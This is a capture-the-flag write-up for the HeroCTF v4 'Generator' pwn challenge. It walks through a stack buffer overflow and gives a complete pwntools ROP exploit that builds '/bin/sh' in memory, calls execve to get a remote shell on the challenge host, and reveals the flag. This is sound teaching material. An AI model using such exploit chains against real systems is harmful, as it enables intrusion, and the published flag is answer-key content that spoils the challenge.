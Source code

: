 # Generator

### Category

Pwn

### Description

Login and get the flag!

**Host** : pwn.heroctf.fr<br>
**Port** : 8000

Format : **Hero{flag}**<br>
Author : **SoEasY**

### Files

 - [Generator](Generator)

### Write up

Let's start this challenge by making a checksec on the binary:
```bash
$ checksec ./Generator
[*] '/home/soeasy/GitHub/HeroCTF_v4/Pwn/Generator/Generator'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
```
We can see that there is no PIE and no stack canary: the perfect setup to ROP. Let's open the binary in IDA and look at the main:
```c
int __cdecl main(int argc, const char **argv, const char **envp){
  unsigned int v3; // eax
  char s[5]; // [rsp+7h] [rbp-9h] BYREF
  int i; // [rsp+Ch] [rbp-4h]

  v3 = time(0LL);
  srand(v3);

  for ( i = 0; i <= 6; ++i )
    random_str[i] = rand() % 94 + 33;

  random_str_last_byte = 0;

  printf("Random string generated: %s\n", random_str);
  printf("Are you satisfied by this application ? (yes/no) ");
  fflush(_bss_start);
  fgets(s, 100, stdin);

  if ( strncmp(s, "yes", 3uLL) ){
    printf("Sorry to read this, we will do our best to give you a better user experience...%c", 10LL);
    fflush(_bss_start);
    exit(1);
  }

  printf("Nice ! Rate us on the playstore: %s\n", playstore_link);
  fflush(_bss_start);
  return 0;
}
```
So we can see that a random 7-bytes-long string is generated and placed in a global variable in the .bss called `random_str`.
Then, an input is asked to the user on 100 bytes to fit in a char[5] --> evident buffer overflow here, but the trick is that it has to start with "yes" without what `exit(1)` will be called and the main return will never be called.

Then, we can observe a symbol called `interesting`, let's see what's going on there:
```x86asm
.text:0x401216     endbr64
.text:0x40121A     push    rbp
.text:0x40121B     mov     rbp, rsp
.text:0x40121E     xor     [rdi], rsi
.text:0x401221     retn

.text:0x401222     pop     rdi
.text:0x401223     pop     rsi
.text:0x401224     pop     rdx
.text:0x401225     retn

.text:0x401226     xchg    rax, rdx
.text:0x401228     retn

.text:0x401229     syscall
```

Nice ! we've got everything here to make our ROPchain that will execute `execve("/bin/sh")`. This is the plan:
- xor `random_str` with a value to have "/bin/sh"
- set rax to 0x3b (SYS_EXECVE)
- set rdi to &random_str
- set rsi to 0
- set rdx to 0
- syscall

--> Note that the final payload's length must be < 100 bytes.
```py
from pwn import *

r = remote("pwn.heroctf.fr", 8000)
#r = process("./Generator")

xor_ptr_rdi_rsi = p64(0x40121e)
pop_rdi_rsi_rdx = p64(0x401222)
pop_rsi_rdx		= p64(0x401223)
xchg_rax_rdx	= p64(0x401226)
syscall			= p64(0x401229)
random_str		= p64(0x404090)

string = r.recvuntil(b"\n").split(b" ")[-1].strip()
print(f"[+] Leaked string: {string}")

# [::-1] because the string will be xored in little endian in the program
xor_val = int(binascii.hexlify((string + b"\x00")[::-1]), 16) ^ int(binascii.hexlify(b"/bin/sh\x00"[::-1]), 16)
print(f"[+] XOR value to have \"/bin/sh\": {hex(xor_val)}")

rop = b"yes"
rop += b"A" * 14

rop += pop_rdi_rsi_rdx
rop += random_str
rop += p64(xor_val)
rop += p64(0x3b)

rop += xchg_rax_rdx
rop += xor_ptr_rdi_rsi

rop += pop_rsi_rdx
rop += p64(0)
rop += p64(0)

rop += syscall

# pause()
log.success(f"ROPchain length: {len(rop)}")
r.sendline(rop)
r.interactive()
```
Result:
```bash
$ python3 solve.py 
[+] Opening connection to pwn.heroctf.fr on port 8000: Done
[+] Leaked string: b'Py1_EGk'
[+] XOR value to have "/bin/sh": 0x3346a31581b7f
[+] ROPchain length: 97
[*] Switching to interactive mode
Are you satisfied by this application ? (yes/no) Nice ! Rate us on the playstore: https://bit.ly/384qugO
$ id
uid=1000(player) gid=1001(player) groups=1001(player),1000(ctf)
$ cat flag.txt
Hero{Pr3tty_c00l_x64_R0P_1ntr0_r1ght???}
```


### Flag

```
Hero{Pr3tty_c00l_x64_R0P_1ntr0_r1ght???}
```
